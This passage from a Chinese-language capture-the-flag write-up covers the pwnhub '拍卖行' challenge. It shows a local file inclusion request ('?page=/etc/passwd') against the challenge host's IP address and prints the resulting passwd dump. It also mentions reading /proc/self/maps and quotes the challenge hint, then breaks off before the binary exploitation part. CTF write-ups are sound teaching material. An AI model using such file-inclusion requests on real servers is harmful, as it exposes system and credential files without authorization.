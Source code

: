 ```yaml
---
title: pwnhub_拍卖行
date: 2016-12-18 23:22:00
tags:
- pwnhub
- sqli
- pwn
categories:
- Blogs
---
```


算是第一次做pwn题，不过有点不得不说，整个题目几乎都是web思路，除了分析bin的部分需要一点儿别的知识，其余都可以web直接做，下面稍微说下吧

由于各种各样的原因吧，最后还是被取消了成绩，不想解释太多，下面的wp已经把之前没有写过的部分全部修改增加上了，整个思路除了使用别人的poc修改，全部都是自己的思路，从一个web选手的角度去思考而已...



总览整个网站，存在任意文件包含漏洞，但是整个站都是假的，没有任何功能。

`http://54.223.241.254/?page=/etc/passwd`

这里可以读任意文件
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
syslog:x:105:108::/home/syslog:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
```
但是没有任何收获，我们顺手看看`/proc/self/maps`,没有什么特别的收获，所以目光回到提示
```
 这是pwn题，不用扫。请各位大佬文明驾驶不要搅屎，给大佬递茶。
后端骄傲地采用raft支持, ctf_xinetd部署，独自完成更有趣哦 
```
